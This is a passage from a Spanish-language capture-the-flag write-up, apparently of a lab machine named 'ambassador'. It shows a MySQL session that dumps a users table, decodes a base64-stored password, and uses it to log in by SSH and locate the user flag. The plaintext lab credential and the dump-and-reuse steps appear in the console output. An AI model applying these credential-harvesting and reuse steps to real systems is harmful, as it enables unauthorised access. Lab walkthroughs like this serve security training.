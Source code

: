 ```console
+------------------------+               
1 row in set (0.105 sec)
                                              
MySQL [whackywidget]> SELECT * FROM users;                                                    
+-----------+------------------------------------------+
| user      | pass                                     |         
+-----------+------------------------------------------+      
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+

MySQL [whackywidget]> SELECT user, FROM_BASE64(pass) FROM users\G
*************************** 1. row ***************************
             user: developer
FROM_BASE64(pass): anEnglishManInNewYork027468
```

Ahora recordamos el mensaje de antes sobre que podemos conectarnos por **SSH** como el usuario `developer` y conseguimos entrar al sistema:

```console
❯ ssh developer@10.10.11.183
The authenticity of host '10.10.11.183 (10.10.11.183)' can't be established.
ED25519 key fingerprint is SHA256:zXkkXkOCX9Wg6pcH1yaG4zCZd5J25Co9TrlNWyChdZk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.183' (ED25519) to the list of known hosts.
developer@10.10.11.183's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 23 Nov 2022 11:02:22 PM UTC

  System load:  0.02              Processes:             229
  Usage of /:   81.5% of 5.07GB   Users logged in:       0
  Memory usage: 55%               IPv4 address for eth0: 10.10.11.183
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Nov 23 20:53:34 2022 from 10.10.14.6
developer@ambassador:~$ find / -name user.txt -exec ls -l {} + 2>/dev/null
-rw-r----- 1 root developer 33 Nov 23 17:05 /home/developer/user.txt
```
